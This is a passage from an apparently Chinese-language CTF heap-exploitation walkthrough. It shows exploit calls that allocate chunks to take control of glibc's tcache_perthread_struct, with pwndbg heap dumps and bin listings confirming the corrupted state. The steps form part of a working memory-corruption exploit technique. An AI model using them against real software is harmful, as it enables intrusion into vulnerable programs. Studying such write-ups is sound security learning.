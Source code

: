 ```c
empty
pwndbg> 
```

## 申请tcache_perthread_struct内存
```c
new(0x50) #2
new(0x50) #3
```

创建2个chunk之后就会完全控制tcache_perthread_struct，结果如下所示：

```c
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555757000
Size: 0x251

Allocated chunk | PREV_INUSE
Addr: 0x555555757250
Size: 0x61

Top chunk | PREV_INUSE
Addr: 0x5555557572b0
Size: 0x20d51

pwndbg> x/100gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x555555757010:	0x000000ff00000000	0x0000000000000000
    			#tcache_count=-1=0xff
.......(省略内容均为空)
0x555555757250:	0x0000000000000000	0x0000000000000061 #chunk0（chunk1）
0x555555757260:	0x0000555555757010	0x000000000000000a
.......(省略内容均为空)
0x5555557572b0:	0x0000000000000000	0x0000000000020d51
.......(省略内容均为空)
0x555555757310:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx 0x555555756060
0x555555756060:	0x0000005000000000	0x0000005000000050
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000555555757260	0x0000555555757260
				#chunk0_data_ptr    #chunk1_data_ptr
0x555555756090:	0x0000555555757260	0x0000555555757010
       #chunk1_data_ptr(malloc所致)  #tcache_perthread_struct_data
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
pwndbg> bin
tcachebins
0x60 [ -1]: 0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
```